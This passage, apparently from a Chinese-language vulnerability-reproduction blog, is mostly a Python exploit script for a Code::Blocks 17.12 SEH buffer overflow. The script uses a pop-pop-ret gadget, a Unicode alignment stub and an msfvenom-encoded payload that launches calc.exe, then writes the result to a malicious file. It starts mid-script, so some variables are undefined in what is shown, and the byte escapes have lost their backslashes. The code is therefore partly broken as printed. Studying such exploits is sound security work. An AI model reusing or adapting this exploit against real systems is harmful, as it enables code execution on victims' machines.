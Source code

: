 ```

#0x005000e0 pop edi # pop ebp # ret  | startnull,unicode `{`PAGE_EXECUTE_READ`}` [codeblocks.exe]
seh = "xe0x50"

nops = "x47"*10

valign = (
"x53"                 #push ebx
"x47"                 #align
"x58"                 #pop eax
"x47"                          #align
"x47"                          #align
"x05x28x11"                     #add eax  
"x47"                          #align
"x2dx13x11"                  #sub eax
"x47"                #align
"x50"                #push eax
"x47"                #align
"xc3"                #retn
)

nops_sled = "x47"*28

#msfvenom -p windows/exec CMD=calc.exe -e x86/unicode_upper BufferRegister=EAX
#Payload size: 517 bytes
calc = (
"PPYAIAIAIAIAQATAXAZAPU3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1A"
"IQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBKLIXDBM0KPKP1PU9ZE01I0RD4KPPP0DK0RLL4KB2MD4KRRN"
"HLO6WOZNFP1KOFLOLC13LKRNLMPI18OLMM17W9RKBB21GTKPRLPDKPJOL4K0LN1RXZCPHKQZ1PQ4K29O0KQXS4KOY"
"N8YSOJOYDKNT4KKQXV01KOFLY18OLMM1GWOH9PSEKFM3SMZXOKSMNDT5ITPXDKPXMTKQ8SC6TKLL0KTKPXMLM1YCD"
"KLDTKM1J0SYOTMTMTQKQKS10YQJB1KOIPQO1OQJ4KMBZK4MQM2JKQ4MTEX2KPKPKPPP2HP1TKBOTGKOZ5GKJP6UVB"
"0V2HW65EGM5MKO8UOLLFSLLJU0KKIPRUKUWK0GMCCBRORJKPB3KOIE2CC1RLQSNNQU2X35M0AA")

fill = "D"*10000

buffer = junk + nseh + seh + nops + valign + nops_sled + calc + fill

textfile = open(filename , 'w')
textfile.write(buffer)
textfile.close()
```



## 漏洞分析

直接利用exp执行

[![](https://raw.githubusercontent.com/xinali/img/master/blog/%E4%BA%8C%E8%BF%9B%E5%88%B6%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/codeblocks_17_12_buffer_overflow/1548077704859.png)](https://raw.githubusercontent.com/xinali/img/master/blog/%E4%BA%8C%E8%BF%9B%E5%88%B6%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/codeblocks_17_12_buffer_overflow/1548077704859.png)
